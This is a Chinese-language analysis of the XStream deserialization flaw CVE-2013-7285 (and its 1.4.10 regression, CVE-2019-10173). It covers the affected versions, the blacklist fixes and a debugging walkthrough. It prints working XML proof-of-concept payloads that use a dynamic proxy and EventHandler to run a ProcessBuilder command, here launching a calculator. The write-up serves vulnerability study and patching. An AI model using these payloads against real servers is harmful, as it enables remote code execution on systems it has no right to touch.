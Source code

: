 # 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

![](pic/xstream-cve137285-1.png)。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。

这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`的实现类`EventHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。序列化`java.util.TreeSet`的对象，该对象又包含`java.lang.Comparable`这样的对象，当`Set`在服务器端实例化时，就会调用`Comparable`的`compareTo()`方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是往`TreeSet`的元素中添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的payload替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

![](pic/xstream-cve137285-2.png)


# 0x03 漏洞修复

因为`EventHandler`是由`ReflectionConverter`这个转换器来处理的。在`1.4.7-1.4.9`版本中，增加了对`java.beans.EventHandler`的限制。

![](pic/xstream-cve137285-3.png)

然而在`1.4.10`版本中，修复代码稍有变化。该版本中并没有在`ReflectionConverter`中对`java.beans.EventHandler`进行限制。而是在`XStream.java`中定义了一个`InternalBlackList`的`Converter`，它的优先级为`LOW`，而`ReflectionConverter`的优先级为`VERY_LOW`，所以在进入`ReflectionConverter`之前，`java.beans.EventHandler`就会被`InternalBlackList`给拦截掉。如下图：

![](pic/xstream-cve137285-4.png)

![](pic/xstream-cve137285-5.png)

![](pic/xstream-cve137285-6.png)

然而有意思的是，由于代码存在bug，导致这个`InternalBlackList`在该版本没有起到作用，导致`CVE-2013-7285`这个漏洞的PoC又能在`1.4.10`版本上执行成功。还有了个新的CVE编号：`CVE-2019-10173`。

用`1.4.10`版本进行调试，如下图，可以看到，在进入`InternalBlackList#canConvert()`时，参数`type`为`java.beans.EventHandler`，由于此时`insecureWarning`为`false`，从而`InternalBlackList#canConvert()`返回`false`，结果就是`InternalBlackList`没起到黑名单拦截作用。

![](pic/xstream-cve137285-7.png)

`1.4.11`版本修复了bug，让`InternalBlackList`起到了黑名单拦截作用。调试如下图：

![](pic/xstream-cve137285-8.png)

调用`InternalBlackList#unmarshal()`方法，直接抛出异常`ConversionException`，提示`Security alert. Unmarshalling rejected`。

![](pic/xstream-cve137285-9.png)

![](pic/xstream-cve137285-10.png)


# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
